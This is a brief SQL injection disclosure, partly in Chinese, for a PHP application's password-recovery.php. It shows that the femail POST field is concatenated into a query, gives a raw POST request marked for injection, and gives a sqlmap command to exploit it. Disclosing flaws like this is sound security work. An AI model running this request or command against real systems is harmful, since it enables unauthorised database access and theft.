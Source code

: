 password-recovery.php文件中$femail直接拼接到sql语句中，而$femail是通过POST请求直接获取的
![alt text](password-recovery.php%20sql%20inject-2.png)


POST REQUEST

POST /password-recovery.php HTTP/1.1
Host: test.jc
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/137.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Content-Type: application/x-www-form-urlencoded

send=aaa&femail=asd*

SQLmap run
sqlmap -r post.txt
![alt text](password-recovery.php%20sql%20inject-1.png)
